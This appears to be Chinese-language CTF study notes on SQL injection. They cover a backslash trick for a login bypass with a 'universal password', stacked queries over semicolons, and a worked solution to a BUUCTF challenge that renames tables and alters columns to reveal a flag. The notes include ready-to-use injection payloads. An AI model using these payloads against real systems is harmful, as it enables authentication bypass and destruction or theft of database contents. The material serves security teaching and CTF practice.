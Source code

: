 #### 用\构造万能密码登录

一般来说构造万能的密码的时候都需要先用引号闭合，如果引号被过滤了，我们其实还是可以用\构造万能密码，假如后台的源码是：

```
select user from user where user='$_POST[username]' and password='$_POST[password]';
```

我们可以传入`username=admin\&password=or 2>1#`，这时后台接受到的就是：

```
select * from users where username='admin\' and password=' or 2>1#';
```

\会闭合掉admin后面那个引号，相当于接收到where username=’admin and password=’ or 2>1 ，这显然是一个永真判断，虽然不存在admin and password=这个用户，但我们用or 2>1让这个条件永远成立了。

# 堆叠注入

分号`;`为MYSQL语句的结束符，若在支持多语句执行的情况下，可利用此方法执行其他恶意语句。比如有函数mysqli_multi_query()，它支持执行一个或多个针对数据库的查询，查询语句使用分号隔开。如果正常的语句是：

```
select 1;
```

若支持堆叠注入，我们就可以在后面添加自己的语句执行命令，如：

```
select 1;;show tables%23
```

但通常多语句执行时，若前条语句已返回数据，则之后的语句返回的数据通常无法返回前端页面，可考虑使用`RENAME`关键字，将想要的数据列名/表名更改成返回数据的SQL语句所定义的表/列名 。具体参考：[BUUCTF-强网杯2019随便注 write up](https://blog.csdn.net/m0_62851980/article/details/123942292)

## 改目标名

这道题select被过滤了，意味着这道题无法联合（union）注入，而它的内部查询语句为：

```
select id,data from word where id =
```

网页的回显都是words这个表给的回显，而我们的flag放在数字表里，那么我们需要让数字表回显出来flag了，这时直接堆叠注入只会有words表的回显，这里的解决办法便是把数字表改为words表名。

```
1.先对words进行改表名防止重名：rename table `words` to `word`;
2.将数字表改为words表名(在窗口回显内容)：rename table `1919810931114514` to `words`;
3.我们查表结构时看到words里有两个字段id列和数据data,但数字表没有id，所以我们把flag换成id：alter table `words` change `flag` `id` varchar(100);
```

如果修改flag为id直接堆叠：

```
1';rename table `words` to `word`;rename table `1919810931114514` to `words`;alter table `words` change `flag` `id` varchar(100);#
```
